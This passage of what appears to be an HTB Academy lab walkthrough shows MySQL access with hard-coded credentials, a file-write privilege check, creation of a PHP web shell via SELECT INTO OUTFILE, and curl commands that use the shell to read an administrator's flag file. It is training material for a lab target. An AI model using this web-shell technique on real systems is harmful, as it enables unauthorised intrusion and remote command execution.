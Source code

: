 
## 🗄️ Phase 6: Exploitation - Method 2 (MySQL File Write)

### MySQL Access
```bash
# HTB Academy MySQL access (Alternative method)
mysql -u fiona -p987654321 -h 10.129.242.84

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

### File Write Privilege Check
```sql
-- HTB Academy MySQL file operations check
show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.016 sec)
```

**Result**: Empty value = File read/write operations allowed

### Web Shell Creation via MySQL
```sql
-- HTB Academy web shell deployment (Method 2)
-- Generate random filename: openssl rand -hex 16
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/90957b76a1f20de2b13c5bcb2d05b5cf.php';

Query OK, 1 row affected (0.015 sec)
```

---

## 🎯 Phase 7: Flag Extraction

### Web Shell Execution
```bash
# HTB Academy flag extraction
# Method 1 shell usage:
curl -w "\n" http://10.129.242.84/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt

HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}

# Method 2 shell usage:
curl -w "\n" http://10.129.242.84/90957b76a1f20de2b13c5bcb2d05b5cf.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt

HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
```
